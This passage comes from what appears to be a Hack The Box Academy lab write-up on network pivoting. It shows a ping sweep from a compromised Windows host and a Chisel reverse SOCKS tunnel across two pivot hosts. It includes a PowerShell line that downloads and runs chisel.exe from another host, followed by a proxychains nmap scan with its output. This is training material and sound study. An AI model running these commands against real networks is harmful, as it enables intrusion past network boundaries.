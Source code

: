Default Gateway . . . . . . . . . :

#### 

Host discovery (CMD):[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#host-discovery-cmd)

mlefay@PIVOT-SRV01 C:\Users\mlefay>for /L %i in (1 1 254) do @ping 172.16.6.%i -n 2 -w 100 > nul && echo 172.16.6.%i is up.

172.16.6.25 is up.

172.16.6.35 is up.

#### 

Setup pivot from Attack host through inlanefreight.local (pivot host 1) and PIVOT-SRV01 (pivot host 2) to `**172.16.6.25**`:[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#setup-pivot-from-attack-host-through-inlanefreight.local-pivot-host-1-and-pivot-srv01-pivot-host-2-t)

**Step 1:** Start Chisel server (listener) on pivot host 1

www-data@inlanefreight:/var/www/html$ ./chisel server --reverse -v -p 2222 --socks5

Step 2: Transfer Chisel to pivot host 2 and connect to the server (listener):

PS C:\Users\mlefay> (New-Object Net.WebClient).DownloadFile('http://172.16.5.15:8080/chisel.exe','chisel.exe')

PS C:\Users\mlefay> ./chisel.exe client 172.16.5.15:2222 R:2080:socks

Step 3: Add entry to proxychains configuration file - `/etc/proxychains.conf`

socks5 127.0.0.1 2080

Step 4: Use proxychains to enumerate and access `**172.16.6.25**`:

┌──(kali㉿kali)-[~]

└─$ proxychains nmap 172.16.6.25 -F -T4

<SNIP>

Nmap scan report for 172.16.6.25

Host is up (1.2s latency).

Not shown: 96 closed tcp ports (conn-refused)

PORT STATE SERVICE

135/tcp open msrpc

139/tcp open netbios-ssn

445/tcp open microsoft-ds

3389/tcp open ms-wbt-server

​

Nmap done: 1 IP address (1 host up) scanned in 129.59 seconds
